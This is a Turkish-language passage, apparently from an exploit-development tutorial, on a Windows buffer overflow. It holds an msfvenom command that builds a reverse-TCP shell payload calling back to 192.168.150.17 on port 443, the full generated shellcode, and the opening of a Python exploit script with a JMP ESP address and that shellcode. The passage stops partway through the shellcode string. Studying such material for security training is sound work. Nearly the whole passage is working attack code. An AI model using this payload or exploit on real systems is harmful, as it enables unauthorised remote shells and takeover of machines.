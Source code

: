 Shellcode oluşturmak için MSFVenom kullanabiliriz.

Windows platformlar için uygun, içinde nullbyte geçmeyen, C tipinde olan, belirtilen ip ve porta ters bağlantıyla shell açtırmaya yarayan bir payload oluşturuyoruz:
`
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.150.17 LPORT=443 -f c --bad-chars '\x00'
`

Oluşturulan shellcode:
```shell
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xdb\xda\xd9\x74\x24\xf4\xbf\x31\x3b\xfd\x76\x5b\x31\xc9\xb1"
"\x52\x31\x7b\x17\x03\x7b\x17\x83\xf2\x3f\x1f\x83\x08\xd7\x5d"
"\x6c\xf0\x28\x02\xe4\x15\x19\x02\x92\x5e\x0a\xb2\xd0\x32\xa7"
"\x39\xb4\xa6\x3c\x4f\x11\xc9\xf5\xfa\x47\xe4\x06\x56\xbb\x67"
"\x85\xa5\xe8\x47\xb4\x65\xfd\x86\xf1\x98\x0c\xda\xaa\xd7\xa3"
"\xca\xdf\xa2\x7f\x61\x93\x23\xf8\x96\x64\x45\x29\x09\xfe\x1c"
"\xe9\xa8\xd3\x14\xa0\xb2\x30\x10\x7a\x49\x82\xee\x7d\x9b\xda"
"\x0f\xd1\xe2\xd2\xfd\x2b\x23\xd4\x1d\x5e\x5d\x26\xa3\x59\x9a"
"\x54\x7f\xef\x38\xfe\xf4\x57\xe4\xfe\xd9\x0e\x6f\x0c\x95\x45"
"\x37\x11\x28\x89\x4c\x2d\xa1\x2c\x82\xa7\xf1\x0a\x06\xe3\xa2"
"\x33\x1f\x49\x04\x4b\x7f\x32\xf9\xe9\xf4\xdf\xee\x83\x57\x88"
"\xc3\xa9\x67\x48\x4c\xb9\x14\x7a\xd3\x11\xb2\x36\x9c\xbf\x45"
"\x38\xb7\x78\xd9\xc7\x38\x79\xf0\x03\x6c\x29\x6a\xa5\x0d\xa2"
"\x6a\x4a\xd8\x65\x3a\xe4\xb3\xc5\xea\x44\x64\xae\xe0\x4a\x5b"
"\xce\x0b\x81\xf4\x65\xf6\x42\x3b\xd1\x6e\x83\xd3\x20\x8e\xa5"
"\x98\xac\x68\xcf\xce\xf8\x23\x78\x76\xa1\xbf\x19\x77\x7f\xba"
"\x1a\xf3\x8c\x3b\xd4\xf4\xf9\x2f\x81\xf4\xb7\x0d\x04\x0a\x62"
"\x39\xca\x99\xe9\xb9\x85\x81\xa5\xee\xc2\x74\xbc\x7a\xff\x2f"
"\x16\x98\x02\xa9\x51\x18\xd9\x0a\x5f\xa1\xac\x37\x7b\xb1\x68"
"\xb7\xc7\xe5\x24\xee\x91\x53\x83\x58\x50\x0d\x5d\x36\x3a\xd9"
"\x18\x74\xfd\x9f\x24\x51\x8b\x7f\x94\x0c\xca\x80\x19\xd9\xda"
"\xf9\x47\x79\x24\xd0\xc3\x89\x6f\x78\x65\x02\x36\xe9\x37\x4f"
"\xc9\xc4\x74\x76\x4a\xec\x04\x8d\x52\x85\x01\xc9\xd4\x76\x78"
"\x42\xb1\x78\x2f\x63\x90";
```
Exploit'imizin son hali:

```python
#!/usr/bin/python

import socket

jmp_esp = '\xAF\x11\x50\x62' #625011AF   FFE4             JMP ESP

shellcode = ("\xdb\xda\xd9\x74\x24\xf4\xbf\x31\x3b\xfd\x76\x5b\x31\xc9\xb1"
"\x52\x31\x7b\x17\x03\x7b\x17\x83\xf2\x3f\x1f\x83\x08\xd7\x5d"
"\x6c\xf0\x28\x02\xe4\x15\x19\x02\x92\x5e\x0a\xb2\xd0\x32\xa7"
"\x39\xb4\xa6\x3c\x4f\x11\xc9\xf5\xfa\x47\xe4\x06\x56\xbb\x67"
"\x85\xa5\xe8\x47\xb4\x65\xfd\x86\xf1\x98\x0c\xda\xaa\xd7\xa3"
"\xca\xdf\xa2\x7f\x61\x93\x23\xf8\x96\x64\x45\x29\x09\xfe\x1c"
"\xe9\xa8\xd3\x14\xa0\xb2\x30\x10\x7a\x49\x82\xee\x7d\x9b\xda"
"\x0f\xd1\xe2\xd2\xfd\x2b\x23\xd4\x1d\x5e\x5d\x26\xa3\x59\x9a"
"\x54\x7f\xef\x38\xfe\xf4\x57\xe4\xfe\xd9\x0e\x6f\x0c\x95\x45"
"\x37\x11\x28\x89\x4c\x2d\xa1\x2c\x82\xa7\xf1\x0a\x06\xe3\xa2"
"\x33\x1f\x49\x04\x4b\x7f\x32\xf9\xe9\xf4\xdf\xee\x83\x57\x88"
"\xc3\xa9\x67\x48\x4c\xb9\x14\x7a\xd3\x11\xb2\x36\x9c\xbf\x45"
"\x38\xb7\x78\xd9\xc7\x38\x79\xf0\x03\x6c\x29\x6a\xa5\x0d\xa2"
"\x6a\x4a\xd8\x65\x3a\xe4\xb3\xc5\xea\x44\x64\xae\xe0\x4a\x5b"
"\xce\x0b\x81\xf4\x65\xf6\x42\x3b\xd1\x6e\x83\xd3\x20\x8e\xa5"
"\x98\xac\x68\xcf\xce\xf8\x23\x78\x76\xa1\xbf\x19\x77\x7f\xba"
"\x1a\xf3\x8c\x3b\xd4\xf4\xf9\x2f\x81\xf4\xb7\x0d\x04\x0a\x62"
"\x39\xca\x99\xe9\xb9\x85\x81\xa5\xee\xc2\x74\xbc\x7a\xff\x2f"
```